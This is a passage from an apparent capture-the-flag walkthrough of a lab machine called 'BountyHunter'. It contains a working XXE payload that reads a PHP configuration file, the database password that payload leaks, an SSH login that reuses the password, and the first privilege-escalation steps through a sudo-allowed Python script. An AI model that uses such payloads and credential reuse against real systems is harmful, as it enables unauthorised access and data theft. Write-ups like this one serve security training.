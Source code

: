     </tr>
    </table>
    ```

12. So we have user 'development'. And because we now have proved that interact with the server...
13. Let's try and run a php payload
    ```
    <?xml version="1.0"?>
    <!DOCTYPE foo [
    <!ENTITY xxe SYSTEM "php://filter/read=convert.base64-encode/resource=db.php">]>
            <bugreport>
            <title>&xxe;</title>
            <cwe>no</cwe>
            <reward>1337</reward>
            </bugreport>
    ```
14. Encode that payload to base64 and pass it in the request of the burp repeater watch the response
15. We now have the $dbpassword
    ```
    <?php
    // TODO -> Implement login system with the database.
    $dbserver = "localhost";
    $dbname = "bounty";
    $dbusername = "admin";
    $dbpassword = "m19RoAU0hP41A1sTsq6K";
    $testuser = "test";
    ?>
    ```
16. Let's use this to SSH into the machine

    ```
    ssh development@10.10.11.100

    (password)
    ```

## Let's try to PrivEsc

17. Let's look at the capability of your user shell

    ```
    development@bountyhunter:~$ sudo -l
        Matching Defaults entries for development on bountyhunter:
        env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

    User development may run the following commands on bountyhunter:
        (root) NOPASSWD: /usr/bin/python3.8 /opt/skytrain_inc/ticketValidator.py
    ```

18. Let's look at that python file >> ticketValidator.py

    ```
    development@bountyhunter:~$ cat /opt/skytrain_inc/ticketValidator.py
    #Skytrain Inc Ticket Validation System 0.1
    #Do not distribute this file.
